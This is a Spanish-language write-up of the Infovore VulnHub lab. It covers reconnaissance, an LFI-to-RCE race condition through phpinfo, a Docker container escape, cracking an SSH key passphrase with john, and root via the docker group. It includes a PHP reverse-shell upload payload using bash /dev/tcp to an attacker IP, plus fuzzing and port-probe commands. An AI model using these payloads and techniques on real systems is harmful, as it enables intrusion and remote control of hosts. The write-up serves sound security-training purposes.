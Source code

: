 -----
- Tags: #infophp #lfi #RCE  #subida-archivos #race-condition #docker-breakout #ssh #ssh2john
-----
# Explicación e instalación

> En este quinto escenario vamos a estar resolviendo la máquina **Infovore**, para descargarla nos vamos a dirigir al siguiente [link](https://www.vulnhub.com/entry/infovore-1,496/). En este caso tendremos que configurar el adaptador de red en modo **Bridged**.

# Resolución

## Reconocimiento

### NMAP

```js
# Nmap 7.94SVN scan initiated Sun Nov  3 10:53:36 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oN allPorts 192.168.0.129
Nmap scan report for 192.168.0.129
Host is up, received arp-response (0.0023s latency).
Scanned at 2024-11-03 10:53:36 -03 for 5s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
MAC Address: 00:0C:29:2A:F3:95 (VMware)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sun Nov  3 10:53:41 2024 -- 1 IP address (1 host up) scanned in 5.56 seconds
```

Servicios

```js
# Nmap 7.94SVN scan initiated Sun Nov  3 10:54:08 2024 as: nmap -sCV -p80 -oN services 192.168.0.129
Nmap scan report for 192.168.0.129
Host is up (0.00093s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Include me ...
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:2A:F3:95 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov  3 10:54:15 2024 -- 1 IP address (1 host up) scanned in 6.61 seconds
```

### Información obtenida y acceso

```js
Puerto 80

whatweb:
http://192.168.0.129 [200 OK] Apache[2.4.38], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.0.129], JQuery, PHP[7.4.7], Script, Title[Include me ...], X-Powered-By[PHP/7.4.7]

Directory's (gobuster):

# directory-list-2.3-medium and big

/img/                 (Status: 403)
/icons/               (Status: 403)
/css/                 (Status: 403)
/vendor/              (Status: 403)
/server-status/       (Status: 403)

Extensiones de archivos (gobuster: php,sh,css,js,php.bak,bak)

/index.php
/info.php ---> Mucha información importante ---> PHP 7.4.7 ---> File Upload ON

```

Vamos a intentar conseguir un LFI haciendo fuzzing de un parámetro en la URL de esta forma ``http://192.168.0.129/index.php?FUZZ=/etc/passwd`` ya que hay veces que **existen parámetros vulnerables a LFI**.

 - ``wfuzz --hc=403 --hw=382 -c -t 20 -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.0.129/index.php\?FUZZ=/etc/passwd``

Encontramos un **parámetro vulnerable a LFI** llamado ``filename`` que nos permite listar contenido de la máquina

``http://192.168.0.129/index.php?filename=/etc/passwd``

![[Imagenes de todas las carpetas/Máquina vulnerable 5/MV 1.png]]

Ahora lo que hacemos es **subir un archivo ``php``** al ``info.php`` a través de **Burpsuite** cambiando la petición a ``POST`` y **modificando** y **añadiendo** unas **cabeceras nuevas**.

```js
Content-Type: multipart/form-data; boundary=--pwned
Content-Length: 189

----pwned
Content-Disposition: form-data; name="name"; filename="cmd.php"
Content-Type: text/plain

<?php system("bash -c 'bash -i >& /dev/tcp/192.168.0.194/443 0>&1'"); ?>
----pwned
```

![[Imagenes de todas las carpetas/Máquina vulnerable 5/MV 2.png]]

Si en la respuesta de la petición con las cabeceras anteriores **filtramos** por la cadena ``cmd`` veremos que ahí estará nuestro código y además nos indicará en que ruta de ``/tmp/`` se encuentra, por lo tanto lo único que queda hacer es **conectar el LFI a la ruta brindada**, pero esto **no es tan fácil**, ya que una vez que un archivo temporal se sube, **rápidamente se elimina**, por lo tanto tendremos que jugar con una [[Race Condition]] para que antes de que nuestro archivo malicioso sea eliminado nos lo **interprete y obtengamos nuestra Reverse Shell**.

Para realizar esto nos vamos a apoyar del script brindado por **Hacktricks** --> https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo y lo vamos a modificar para que se nos adecue a nuestro escenario.

Lo ejecutamos mientras nos ponemos en escucha por el *puerto 443* y ganamos acceso a la máquina.

----------
### Escape del contenedor

Si hacemos un ``hostname -I`` veremos que **no coincide la IP** con la de nuestra máquina víctima, esto quiere decir que **estamos en un contenedor** y que debemos escapar de el.

Utilizaremos la herramienta ``linpeas`` de https://roriwa.github.io/pentest/tools/LinPEAS/ para realizar un reconocimiento, simplemente usamos el ``curl`` brindado por la web.
De esta manera descubriremos un archivo oculto en la raíz llamado ``.oldkeys.tgz`` que al descomprimirlo con ``tar -xvf .olfkeys.tgz`` conseguiremos dos archivos, uno con un **clave privada** que se encuentra **cifrada**, y otra con una **clave pública**. Intentaremos **romper la clave privada** copiándola y llevándolo a nuestra máquina de atacante colocándole al archivo el nombre ``id_rsa``, ahí usaremos una herramienta llamada ``ssh2john.py`` ubicada en ``/usr/share/john/ssh2john.py``.

Antes de romper la clave revisaremos el archivo ``/proc/net/tcp`` para ver que puertos están abiertos a simple vista de manera interna en búsqueda del *puerto 22 SSH*.
Si hacemos un ``hostname -I`` vemos que estamos en la ``192.168.150.21`` es fácil de interpretar que la máquina host es la ``192.168.150.1``, esto recordemos que se debe a que **docker asigna por defecto la interfaz de red XXX.XXX.XXX.1** en la máquina **Host** y a partir de ahí se despliegan contenedores en la *XXX.XXX.XXX.2* en la *XXX.XXX.XXX.3* en la *XXX.XXX.XXX.4* y así sucesivamente.
Por lo tanto podemos enviar una cadena vacía al ``/dev/tcp/192.168.150.1/22`` y si el código de estado es ``0``, es decir exitoso, significa que el *puerto 22* está **abierto**.

- ``echo '' > /dev/tcp/192.168.150.1/22``

Descubrimos que el *puerto 22* está **abierto de manera interna**, por lo tanto ahora si procedemos a romper la clave privada que conseguimos previamente para autenticarnos podríamos intentar autenticarnos en la máquina HOST.

El comando ssh2john al pasarle el ``id_rsa`` cifrado nos dará una **HASH**, por lo tanto ese hash lo metemos en otro archivo y ahí usamos el john para obtener su contraseña.

- ``john -w:/usr/share/worldlists.txt/rockyou.txt hash_file``

El resultado es ``choclate93`` por lo tanto intentamos autenticarnos en la máquina host desde el contenedor pero nos da un error.

- ``ssh -i root root@192.168.150.1``

-------

Como lo anterior **no funcionó** intentamos **utilizar esa misma contraseña** para migrar al usuario **root** dentro del contenedor y lo **conseguimos**. Ya siendo usuarios root en el contenedor buscamos una manera de salir de este.

Dentro del directorio ``/root`` encontramos otro **par de claves SSH** y un archivo ``known_hosts`` en el directorio ``.ssh`` oculto. El archivo ``id_rsa.pub`` al verlo nos muestra al final que **admin posee** de alguna manera **confianza para autenticarse sin proporcionar contraseña** en la ``192.168.150.1`` ya que se lo toma como usuario de "*conocido*", por lo tanto intentaremos ingresar a la máquina host a través de dicho usuario.

- ``ssh admin@192.168.150.1``

En la contraseña probaremos colocar ``choclate93`` para ver si funciona y en efecto, es válida. De esta forma ingresamos a la máquina Host **Infovore** ya que se **reutilizó la contraseña**.

------
### Escalada de privilegios

Lo que resta ahora es escalar al usuario root en la máquina Host.

Vemos con ``id`` que ``admin`` está en el grupo ``docker``, por lo tanto podemos aprovecharnos de esto para escalar privilegios.
Realizamos una **montura** de todo el sistema operativo en un contenedor creado por nosotros y dentro de este le otorgamos **privilegios SUID** al binario ``bash``, esto generará gracias a la montura que ese privilegio se otorgue en la máquina Host, por lo tanto **podremos ascender a root**.


